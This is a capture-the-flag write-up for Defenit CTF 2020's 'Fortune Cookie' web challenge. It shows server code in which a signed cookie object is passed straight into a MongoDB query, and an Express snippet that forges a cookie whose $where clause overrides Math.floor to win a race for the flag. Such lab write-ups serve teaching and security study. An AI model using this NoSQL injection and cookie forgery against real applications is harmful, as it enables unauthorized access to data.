 # Fortune Cookie
*Defenit CTF 2020 - Web 507<br>
*Writeup by Payload as ToEatSushi*


## Problem

Here's a test of luck!
What's your fortune today?

## Look up

```javascript
app.get('/flag', (req, res) => {

    let { favoriteNumber } = req.query;
    favoriteNumber = ~~favoriteNumber;

    if (!favoriteNumber) {
        res.send('Please Input your <a href="?favoriteNumber=1337">favorite number</a> ?삃');
    } else {

        const client = new MongoClient(MONGO_URL, { useNewUrlParser: true });

        client.connect(function (err) {

            if (err) throw err;

            const db = client.db('fortuneCookie');
            const collection = db.collection('posts');

            collection.findOne({ $where: `Math.floor(Math.random() * 0xdeaaaadbeef) === ${favoriteNumber}` })
                .then(result => {
                    if (favoriteNumber > 0x1337 && result) res.end(FLAG);
                    else res.end('Number not matches. Next chance, please!')
                });

            client.close();

        });
    }
})
```

To get flag, we have to pass lottery based on Math.floor. If I have a huge luck, I could pass at once, but I'm not.

Since we know the secret value for signing cookie, we can make every structure in `req.signedCookies`.

```javascript
app.get('/posts', (req, res) => {

    let client = new MongoClient(MONGO_URL, { useNewUrlParser: true });
    let author = req.signedCookies.user;

    if (typeof author === 'string') {
        author = { author };
    }

    client.connect(function (err) {

        if (err) throw err;

        const db = client.db('fortuneCookie');
        const collection = db.collection('posts');

        collection
            .find(author)
            .toArray()
            .then((posts) => {
                res.render('posts', { posts })
            }
            );

        client.close();

    });

});
```

One more intersting point is `req.signedCookies.user` is given as object in `collection.find()`. When we give `$where` key for `user`, then javascript code will be evaluated.


## Race!

After `/posts` has a vulnerability, further steps are easy. Build a javascript code that overrided `Math.floor`, and make a race condition. It's all

## Exploitation

1. Make cookie that includes a javascript code overwrites `Math.floor` in `$where`
2. Pray for race condition


## Payload

To make cookie,
```javascript
const express = require("express");
const cookieParser = require("cookie-parser");

const app = express();

app.use(cookieParser('🐈' + '🐇'));
app.use(express.urlencoded());

app.get('/test', (req, res) => {
        res.cookie('user', {author: 'maratang', $where: 'Math.floor = function(x) { return 5000; }; return 1 == 2;'}, {signed: true});
        res.send('');
});
```



**`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`**
